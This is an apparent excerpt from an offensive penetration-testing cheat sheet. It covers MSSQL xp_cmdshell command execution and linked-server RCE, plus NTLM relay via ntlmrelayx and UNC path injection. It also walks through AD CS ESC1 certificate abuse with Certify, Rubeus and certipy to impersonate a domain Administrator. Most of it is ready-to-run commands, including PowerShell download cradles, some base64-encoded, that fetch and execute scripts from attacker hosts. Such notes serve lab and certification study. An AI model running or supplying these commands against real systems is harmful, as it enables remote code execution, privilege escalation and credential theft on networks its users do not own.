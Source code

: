 alternate download cradle
```
EXEC xp_cmdshell 'echo IEX (New-Object Net.WebClient).DownloadString("http://10.10.14.7/script.ps1") | powershell -noprofile'
```
RCE 2nd Linked Server
```
EXEC ('EXECUTE AS LOGIN = ''sa'';EXEC sp_configure ''show advanced options'', 1;reconfigure; EXEC sp_configure ''xp_cmdshell'',1;reconfigure') AT SQL53
EXEC ('EXECUTE AS LOGIN = ''sa''; EXEC xp_cmdshell ''powershell -enc SQBFAFgAKAAoAG4AZQB3AC0AbwBiAGoAZQBjAHQAIABzAHkAcwB0AGUAbQAuAG4AZQB0AC4AdwBlAGIAYwBsAGkAZQBuAHQAKQAuAGQAbwB3AG4AbABvAGEAZABzAHQAcgBpAG4AZwAoACcAaAB0AHQAcAA6AC8ALwAxADkAMgAuADEANgA4AC4ANAA1AC4AMgAwADEALwByAHUAbgAuAHAAcwAxACcAKQApAA==''') AT SQL53
```
UNC Path Injection - NTLM Hash Relay 
```
sudo proxychains4 impacket-ntlmrelayx --no-http-server -smb2support -t 172.16.154.152 -c 'powershell -enc SQBFAFgAKAAoAG4AZQB3AC0AbwBiAGoAZQBjAHQAIABzAHkAcwB0AGUAbQAuAG4AZQB0AC4AdwBlAGIAYwBsAGkAZQBuAHQAKQAuAGQAbwB3AG4AbABvAGEAZABzAHQAcgBpAG4AZwAoACcAaAB0AHQAcAA6AC8ALwAxADkAMgAuADEANgA4AC4ANAA1AC4AMgAzADQALwByAHUAbgAuAHAAcwAxACcAKQApAA=='
EXEC master..xp_dirtree "\192.168.49.67\share";
```

## Active Directory Certificate Services

This command will use the certipy tool to query the domain for certificate information.
It will then only return enabled templates and those with expected vulnerabilities.

Flag explanations
- -enabled only returns enabled templates. disabled templates cannot be leveraged
- -vulnerable only returns templates that have vulnerabilities
- -hide-admins hides template vulnerabilies that only Admin level priviliges can abuse.

```bash
# Find Vulnerable Certificate Templates
certipy find domain.local/user:pass@domain.local -enabled -vulnerable -hide-admins
```

### ESC1

This works if 3 conditions are met.
- Client Authentication is set to 'True'
- Certificate Name Flag is set to 'EnrolleSuppliesSubject'
- You can authenticate as an enrolle.


```bash
# Locally
Certify.exe request /ca:dc.domain.local\domain-DC-CA /template:VulnerableTemplate /user:Administrator

# copy cert from the compromised host to your attack box and name it cert.pem 
openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx

# upload cert.pfx to compromised host
Rubeus.exe asktgt /user:Administrator /certificate:cert.pfx /ptt /getcredentials


# Remotely
certipy req -username john@corp.local -password Passw0rd -ca corp-DC-CA -target ca.corp.local -template ESC1-Test -upn administrator@corp.local -dns dc.corp.local
certipy auth -pfx administrator_dc.pfx -dc-ip <dc-ip> -username Administrator

# Check Auth
cme smb <dc-ip> -u Administrator -H <ntlm> --shares
```
